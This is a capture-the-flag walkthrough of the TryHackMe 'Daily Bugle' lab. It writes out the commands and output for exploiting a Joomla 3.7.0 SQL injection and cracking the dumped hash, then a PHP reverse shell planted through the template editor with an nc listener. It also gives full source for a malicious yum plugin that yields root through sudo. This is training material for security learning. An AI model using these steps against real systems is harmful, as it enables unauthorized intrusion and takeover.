




# Daily Bugle

**Room:** [Daily Bugle](https://tryhackme.com/room/dailybugle) · **Difficulty:** Hard · **OS:** Linux

A Joomla 3.7.0 install is vulnerable to an unauthenticated SQL injection that dumps the admin's password hash straight out of the database. Cracking that hash gets admin access to the CMS, whose built-in template editor is abused to plant a PHP reverse shell. The Joomla config file then reuses its database password as the `jjameson` system account's SSH password, and a crafted `yum` plugin — abusable because of a passwordless `sudo yum` rule — finishes the job as root.

---

## 1. Reconnaissance

### Port scan

```bash
nmap -p- --min-rate 1000 -T4 -sV -Pn -oA nmap_full_scan 10.48.136.172
```

```text
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
3306/tcp open  mysql   MariaDB 10.3.23 or earlier (unauthorized)
```

MySQL is open but not reachable without credentials, so the web app on port 80 is the entry point, and CentOS/old-PHP hints at an older, possibly vulnerable CMS install.

### Content discovery

```bash
ffuf -u "http://10.48.136.172/FUZZ" -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -r
```

```text
administrator           [Status: 200]
components              [Status: 200]
robots.txt              [Status: 200]
templates               [Status: 200]
```

An `/administrator` panel and Joomla-style directory structure (`components`, `templates`) strongly suggest **Joomla**.

### CMS fingerprinting

```bash
cmseek -u http://10.48.136.172
```

```text
[] Detected CMS: Joomla
[] Joomla Version: 3.7.0
[] Admin URL: http://10.48.136.172/administrator
```

Joomla **3.7.0** has a well-known unauthenticated SQL injection in the `com_fields` component (CVE-2017-8917), so that version number is the key finding here.

---

## 2. Foothold — Joomla 3.7.0 SQL injection

A public exploit for CVE-2017-8917 is run against the target to confirm and exploit the injection:

```bash
python3 main.py --host 10.48.136.172 --schema http --port 80
```

```text
>> http://10.48.136.172:80/index.php is vulnerable to SQLI
>> Database version detected : 5.5.64-MariaDB
>> Current database : joomla
```

The injection is used to read the `#__users` table directly, which hands over the admin account's username and bcrypt hash without any authentication:

```text
811 ||| Super User ||| jonah ||| jonah@tryhackme.com ||| $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

### Cracking the hash

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

```text
spiderman123     (?)
1g 0:00:04:19 DONE
```

`jonah` / `spiderman123` logs straight into the Joomla admin panel:



---

## 3. From admin panel to shell — template editor RCE

Joomla's admin panel lets a Super User edit template files directly from the browser, which is effectively an authenticated file-write primitive onto the live web root. The control panel confirms the login, and **Extensions → Templates → Templates** is opened to reach the template manager:



The active **Beez3** template is selected:



Its `index.php` is opened in the built-in editor and replaced with a PHP reverse shell (`pentestmonkey`-style), pointed at the attacker's IP and port, then saved — which writes the payload straight into the live, web-accessible template file:



With a listener running, requesting the site's front end (which now renders through the patched `index.php`) triggers the shell:

```bash
nc -lvnp 4444
```

```text
connect to [192.168.158.240] from (UNKNOWN) [10.48.136.172] 37902
uid=48(apache) gid=48(apache) groups=48(apache)
```

---

## 4. Lateral movement — database password reuse

Joomla's configuration file stores the live database credentials in plaintext, which is always worth reading after landing as the web user:

```bash
cat /var/www/html/configuration.php
```

```text
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
```

```bash
ls /home
```

```text
jjameson
```

The database password is tried against the only local user account over SSH, and it works — password reuse between the application's database account and a real system account:

```bash
ssh jjameson@10.48.136.172
# password: nv5uz9r3ZEDzVjNu
```

### User flag

Logging in as `jjameson` over SSH reaches the user's home directory and its flag.

---

## 5. Privilege escalation — malicious `yum` plugin

`jjameson` has passwordless `sudo` rights over `yum`. Since `yum` supports loading arbitrary plugins from a config-specified path, a plugin that simply calls `os.system()` runs as root the moment `yum` itself is invoked under `sudo`:

```bash
mkdir /tmp/yumroot
cd /tmp/yumroot
```

```bash
cat > x << EOF
[main]
plugins=1
pluginpath=/tmp/yumroot
pluginconfpath=/tmp/yumroot
EOF
```

```bash
cat > y.conf << EOF
[main]
enabled=1
EOF
```

```bash
cat > y.py << EOF
import os
from yum.plugins import TYPE_INTERACTIVE

requires_api_version='2.1'
plugin_type=(TYPE_INTERACTIVE,)

def init_hook(conduit):
    os.system('/bin/bash')
EOF
```

```bash
sudo yum -c /tmp/yumroot/x --enableplugin=y --disablerepo=* list
```

### Root flag

```bash
cd /root
cat root.txt
```

```text
eec3d53292b1821868266858d7fa6f79
```
